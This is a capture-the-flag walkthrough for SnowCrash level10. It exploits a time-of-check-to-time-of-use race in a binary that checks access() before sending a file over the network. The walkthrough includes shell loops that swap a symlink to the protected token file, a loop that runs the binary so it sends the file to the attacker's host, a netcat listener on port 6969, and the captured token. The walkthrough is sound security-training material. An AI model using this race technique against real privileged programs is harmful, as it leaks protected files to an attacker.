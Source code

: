 The `level10` executable sends a file to a server on port 6969, but only if the user executing it have permissions to open the file, as you can see with the `nm` command:

``` shell
level10@SnowCrash:~$ nm level10 
08049f28 d _DYNAMIC
08049ff4 d _GLOBAL_OFFSET_TABLE_
08048a3c R _IO_stdin_used
         w _Jv_RegisterClasses
08049f18 d __CTOR_END__
08049f14 d __CTOR_LIST__
08049f20 D __DTOR_END__
08049f1c d __DTOR_LIST__
08048c50 r __FRAME_END__
08049f24 d __JCR_END__
08049f24 d __JCR_LIST__
0804a04c A __bss_start
0804a044 D __data_start
080489f0 t __do_global_ctors_aux
08048650 t __do_global_dtors_aux
0804a048 D __dso_handle
         U __errno_location@@GLIBC_2.0
         w __gmon_start__
080489e2 T __i686.get_pc_thunk.bx
08049f14 d __init_array_end
08049f14 d __init_array_start
080489e0 T __libc_csu_fini
08048970 T __libc_csu_init
         U __libc_start_main@@GLIBC_2.0
         U __stack_chk_fail@@GLIBC_2.4
0804a04c A _edata
0804a06c A _end
08048a1c T _fini
08048a38 R _fp_hw
080484d0 T _init
08048620 T _start
         U access@@GLIBC_2.0
0804a064 b completed.6159
         U connect@@GLIBC_2.0
0804a044 W data_start
0804a068 b dtor_idx.6161
         U exit@@GLIBC_2.0
         U fflush@@GLIBC_2.0
080486b0 t frame_dummy
         U htons@@GLIBC_2.0
         U inet_addr@@GLIBC_2.0
080486d4 T main
         U open@@GLIBC_2.0
         U printf@@GLIBC_2.0
         U puts@@GLIBC_2.0
         U read@@GLIBC_2.0
         U socket@@GLIBC_2.0
0804a060 B stdout@@GLIBC_2.0
         U strerror@@GLIBC_2.0
         U write@@GLIBC_2.0
```

It uses `access` system call probably to check the permisions before send it up. I you refer the `access` man page you can see the following warning:

``` 
       Warning: Using these calls to check if a user is authorized to,
       for example, open a file before actually doing so using open(2)
       creates a security hole, because the user might exploit the short
       time interval between checking and opening the file to manipulate
       it.  For this reason, the use of this system call should be
       avoided.  (In the example just described, a safer alternative
       would be to temporarily switch the process's effective user ID to
       the real ID and then call open(2).)
```

We can use this exploit:

 - First: In one shell instance we can create a infinite loop that will create a file in `/tmp` so we have access to it, and substitute it with a symbolic link to our token file over and over again:

``` shell
while true; do 
    rm -f /tmp/dummy;
    ln -s /home/user/level10/token /tmp/dummy;
    rm -f /tmp/dummy;
    echo "dummy" > /tmp/dummy;
done
```

-Second: In another shell instance just create an infinite loop of the `level10` executable calling this file to our host:

``` shell
while true; do
    ./level10 /tmp/dummy 192.168.1.18;
done
```

-Third: Lastly in our host machine for example (`192.168.1.18` in our case) put a server listening and discard all the "dummy" content:

``` shell
➜  Resources git:(master) ✗ nc -lk -p 6969 | grep -v 'dummy\|.*( )*.'
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
```

And here you have the token.

